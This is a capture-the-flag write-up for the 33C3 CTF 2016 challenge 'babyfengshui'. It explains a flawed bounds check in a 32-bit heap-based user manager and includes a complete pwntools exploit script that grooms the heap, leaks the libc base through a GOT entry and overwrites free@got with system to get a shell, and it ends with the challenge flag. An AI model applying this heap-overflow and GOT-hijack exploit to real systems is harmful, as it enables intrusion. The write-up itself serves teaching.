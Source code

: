 ```yaml
---
title: 33C3 CTF 2016 -- babyfengshui
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
date: 2016-12-30 00:27
tags:
- 33C3
- CTF
- Pwnable
- heap_overflow
- heap
- Python
categories:
- write-ups
---
```


**Category:** pwn
**Points:** 150

<!-- more -->  

32 bit ELF, with Partial RELRO, canary & NX enabled, No PIE  

program menu:
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
Here's the data structure of a user:
```c 
struct user{
    char* desc;
    char name[124];
};
```
The program will free `user->desc` & `user` while deleting a user. It also clear the pointer of the `user`, so there's no Use-After-Free vulnerability. 

The program has some strange protection while setting the user's description:
```c
// users = struct user *users[]
if ( &users[id]->desc[text_len] >= &users[id] - 4 )
{
    puts("my l33t defenses cannot be fooled, cya!");
    exit(1);
}
printf("text: ");
read_n(users[id]->desc, text_len + 1);
```
So `user->desc + text_len` must < `user` (both `user->desc` and `user` are pointers). Guess it use this protection to avoid heap overflow.

But what if we have the following heap memory layout?
<pre>

            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
</pre>
According to the protection, `userD->desc + text_len` should less than `userD`, **which means it will be ok to overwrite the whole `userB` and `userC`**.

It is possible to arrange the above heap memory layout if we're familiar with malloc's memory allocation. We can then exploit the heap overflow vulnerability and modify the `userB->desc` pointer, making us able to do the **read/write anywhere** attack. After that is pretty simple, we leak the libc's base address and hijack `free`'s GOT to get the shell.

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.83"
PORT = 1456
ELF_PATH = "./babyfengshui_noalarm"
LIBC_PATH = "./libc-2.19.so"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc = "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 = user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`